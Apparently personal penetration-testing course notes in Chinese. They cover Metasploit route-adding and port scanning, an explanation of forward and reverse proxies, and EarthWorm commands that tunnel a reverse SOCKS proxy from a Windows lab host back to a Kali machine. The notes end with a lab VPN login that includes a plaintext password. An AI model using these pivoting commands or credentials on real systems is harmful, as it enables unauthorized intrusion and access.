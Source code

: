setthreads 15 ???
扫描多个IP地址的方法 ???  （,分割？ 写入文件???）

---------------------------


添加路由【】???
use post/multi/manage/autoroute
set session 1
set subnet 192.168.1.0/24
set subnet 192.168.1.0
set cmd add
run


端口扫描
use auxiliary/scanner/portscan/tcp
set rhosts 192.168.1.0/24
set ports 3389,445,8080
run



## 上午 

### 正向与反向代理

正向代理需要客户端配置，客户端是知道自己通过代理方式去访问服务器的。而反向代理，客户端根本就不知道。
【正向代理】我（客户端）知道东西在哪（原始服务器），你（正向代理服务器）代我跑个腿把东西取回来。
【反向代理】我（原始服务器）手里有东西，如果有谁（客户端）想要，你（反向代理服务器）代我接下请求，后东西给你再发出去。
区别：
【正向】客户端为中心，代客户端办事！
【反向】服务器为中心，代服务器办事！
 https://www.cnblogs.com/Anker/p/6056540.html  【onenote】
https://www.cnblogs.com/lalalaxiaoyuren/p/14035105.html  【ew frp】

![示意图](vx_images/390650219295.png)

### 4.3节

拓扑：day02-4.4反向代理.jpg
![](vx_images/1847827180770.png)

kali：./ew -s rcsocks -l 1080 -e 8880

win7：ew.exe -s rssocks -d kali_ip -e 8880

名称 win7_weakpass_pc1_u4kr
状态 运行中
IP信息/端口 IP(10.2.2.58、192.168.1.2)、端口(rdp/3389)

sudo openconnect https://183.129.189.62:4434 -u connect_KTvgKB4r -p x\$396de4 --servercert pin-sha256:8XHNTS/TmzPE9/nAELp2EgwI+fmZVoZcyXlgio0ApDw=

【kali的密码是kali；后续提示输入vpn密码时，复制没有反斜杠的密码   x$396de4    ！密码粘贴时不会显示】
